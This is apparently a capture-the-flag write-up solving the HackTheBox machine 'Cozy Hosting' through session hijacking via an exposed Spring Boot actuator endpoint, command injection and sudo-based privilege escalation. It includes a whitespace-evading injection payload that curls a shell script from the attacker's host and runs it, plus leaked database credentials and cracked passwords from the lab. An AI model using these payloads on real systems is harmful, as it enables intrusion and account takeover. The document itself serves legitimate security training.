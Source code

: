 ```yaml
---
title: Cozy Hosting

date: 2023-10-09
categories:
  - HTB
tags:
  - Writeups

---
```


# Introduction
Hey guys 👋!
Today we will be solving an easy HackTheBox machine called **Cozy Hosting**. This machine focuses on session hijacking and command injection. Without wasting any time, let's jump into it.

## Nmap Scan
We will start with the initial Nmap scan to see what ports are open on his machine.

![](https://i.imgur.com/LUT0BWH.png)

There are 2 ports open (22,80). There is also something interesting that the target IP resolves to a domain name i.e., `http://cozyhosting.htb`. Let's add this domain name to our hosts file and see what this website is about.

## Website Enumeration
As soon as we add the hostname to our hosts file, we are able to access the website. This is a hosting website. Let's check the website and see what we can find.
![](https://i.imgur.com/FhM5EQo.png)

Let's poke around and see what we can find. After looking around, we got to know that this website is using bootstrap v5.2.3. After a little more research, we found that the framework this website is using is `springboot framework` 

![](https://i.imgur.com/pIMnCff.png)

There was also a login form which will not easy to bypass. So we will look for some other method to bypass login or something. Other than this information, we did not find anything interesting. So let's fire up gobuster and see what directories this website is hiding from us 😏. Using gobuster, we got some interesting results. The only result that I was interested in was the `/actuator/sessions` directory. Let's navigate to this directory and see what we can find.

![](https://i.imgur.com/W4gNY7z.png)

When we navigated to the directory, we found what we were looking for, session cookies for a user account 😃. 

![](https://i.imgur.com/NaQ7k33.png)

Let's use these cookies and see if we can hijack user session and log into the website.

## Session Hijacking
As we expected, using the `kanderson` cookie, we were able to bypass the login and hijack the user session to log into the website. 

![](https://i.imgur.com/itR3CYA.png)

After logging in, the dashboard seems useless because there are no clickable links or redirection, Until we scroll down. When we scroll down, we see something very interesting. two fields asking for `hostname` and `username`. These fields look like some type of command execution parameters. 

![](https://i.imgur.com/f4AyiZe.png)

Lets fire up the burpsuite and see what these fields are doing.

## Command Injection and Reverse Shell
By testing the request in burpsuite, we saw in the URL that the website trying to run ssh command to execute. It was confirmed there is command injection. after some more testing, the command injection was in the second field i.e., `username`. Now it looked pretty easy to get a reverse shell, but it wasn't. White spaces were not allowed in the payload command. To avoid the white spaces and get a reverse shell, we used the following payload.
Create a reverse shell and spin up the web server to deliver the shell.

```bash
IFS=_;command=curl_http://10.10.16.79/shell.sh_--output_/tmp/shell.sh;$(command)
IFS=_;command=chmod_+x_/tmp/shell.sh;$(command)
IFS=_;command=/tmp/shell.sh;$(command)
```

Above payload gave us initial foothold. 

![](https://i.imgur.com/YxlDUuY.png)

Now, let's stabilize this reverse shell and download the file we are seeing in the target machine.

![](https://i.imgur.com/zNAGhog.png)

As we have stabilized our shell, let's download the jar file and see what it is. After downloading and looking closely into the file, we came to know that this is the website's source code file. And in this file, we found credentials that seems like `postgresSQL` login credentials. Let's use these credentials and see if it works.
```credentials
postgres:Vg&nvzAQ7XxR
```

The above credentials did gave us access to the database. After logging into the postgres, there was a database named `cozyhosting`. After looking into the database, we got some users with their password hashes.

![](https://i.imgur.com/KDmK8tm.png)

Let's grab these hashes and see what we can do with the cracked hashes. With the hashes, there was a home directory for the user named `josh`. This might be the actual user on this box. Let's pass these hashes to hashcat and see what we can get. After the hascat is done, we are left with the followings;

```
admin:manchesterunited
josh:manchesterunited
```

Lets try to ssh into the machine and see if we can get any connection. The admin user didn't work but the josh user worked and we have the user level access on the machine 😃.
Lets get the user flag first and move to the next step.

![](https://i.imgur.com/JU2BRLS.png)

## Privilege Escalation
Now we are heading to our last stage of this machine i.e., privilege escalation. To escalate our privileges,we need to find an attack vector. To do this, first we will loo for any type of binary or script of that we have permission to run as root or any cronjobs that are running ass root user privileges. Type `sudo -l` and in most cases, it gives us some pretty valuable information we are looking.

![](https://i.imgur.com/B5tydoO.png)

As we can see, we do have permissions to run something with root privileges. Let's head over to [GTFObins](https://gtfobins.github.io) and see how we can use ssh to spawn a root shell. GTFObins gave us a payload that will spawn us a root shell. Lets use it and get the root flag.

![](https://i.imgur.com/HPGFcKq.png)

And this machine is rooted. It was a great journey so far. I hope you guys enjoyed it and learned something new. If you think there is some space for improvement or I explained something wring, feel free to ping me 😉. Until then, Good Bye!